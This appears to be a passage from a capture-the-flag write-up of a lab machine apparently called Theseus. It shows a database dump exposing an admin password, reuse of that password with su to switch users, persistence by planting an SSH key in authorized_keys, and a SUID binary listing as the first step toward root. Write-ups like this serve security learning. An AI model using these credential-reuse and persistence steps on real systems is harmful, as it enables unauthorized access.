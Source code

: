```
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-08-02  4:35:26
```

It stored some credentials: `admin:Th3s3usW4sK1ng`

I tried to dump `login` table but it didn't work, so the next move was trying that password `su theseus` to change from `www-data` to `theseus` user, and it worked!

#### Persistence

To maintain a connection and keep it in case I lost my shell, I copy my `~/.ssh/id_rsa.pub` key to the Theseus `~/.ssh/authorized_keys`.

In case you don't have the `id_rsa.pub` just `ssh-keygen` and it will create them for you!

### Root

We search for SUID files:

```
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/vmware-user-suid-wrapper
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/snap/core18/1223/bin/mount
/snap/core18/1223/bin/ping
/snap/core18/1223/bin/su
/snap/core18/1223/bin/umount
/snap/core18/1223/usr/bin/chfn
/snap/core18/1223/usr/bin/chsh
/snap/core18/1223/usr/bin/gpasswd
```